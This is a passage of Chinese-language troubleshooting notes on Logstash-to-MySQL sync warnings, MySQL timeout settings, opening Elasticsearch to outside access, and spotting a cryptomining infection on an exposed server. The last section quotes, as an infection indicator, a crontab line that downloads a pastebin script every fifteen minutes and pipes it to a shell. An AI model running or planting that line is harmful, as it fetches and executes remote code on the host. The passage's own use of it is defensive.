 在执行logstash 同步sql的时候,可能会报出上面两个警告.解决方案:

增加jdbc配置:

**autoReconnect=true&useSSL=false**

如下所示:

jdbc_connection_string => "jdbc:mysql://xxxx?autoReconnect=true&useSSL=false&erverTimezone=UTC&zeroDateTimeBehavior=convertToNull"



查看mysql 超时时间:

```sql
show variables like '%timeout%'

#主要看这两个属性 单位是秒 ,
#interactive_timeout
#wait_timeout

#Linux 系统下，配置文件为路径 /etc/my.cnf
# 10 小时  默认值均为 28800
wait_timeout=36000  
interactive_timeout=36000 
```



我遇到这个问题 大概率 是因为SQL 关联表过多,结果太大,logstash 日志中SQL可以打印出来,但是es索引库内一条数据都没有.,我用同样的配置文件只是修改了sql语句,很快就执行完,没有警告.因此猜测可能是sql结果集太大,查询超时,导致警告.

#### 12.外网访问不到问题排查

1.  看一看 elasticsearch.yml 中配置 是否完整
2.  云端的控制台安全策略 是否开启端口.
3.   防火墙端口

```shell
#打开防火墙端口 命令
firewall-cmd --zone=public --add-port=9200/tcp
```

#### 13.es服务配置完成后,用了一段时间频繁挂掉

这个时候就要看看是不是被挖矿了,尤其是部署在外网上的服务

以下是简单测试方案:

#####  top 命令 看看显示的cpu 占用 是否正常

#####  ps 命令 ,是否正常.

##### crontab -l 命令查看

如果看到如下情况,那基本没跑了

```shell
*/15 * * * * (curl -fsSL https://pastebin.com/raw/HdjSc4JR||wget -q -O- https://pastebin.com/raw/HdjSc4JR)|sh

```

我的解决方案就是重装,然后 es  配置x-pack.当时搜 也搜到 不少的解决方案,但是我没能找到一个百分百有效的方案,当时我们很赶,没时间尝试,害怕 万一没清理干净,死灰复燃,影响程序运行.最后就选择的最稳妥的方案,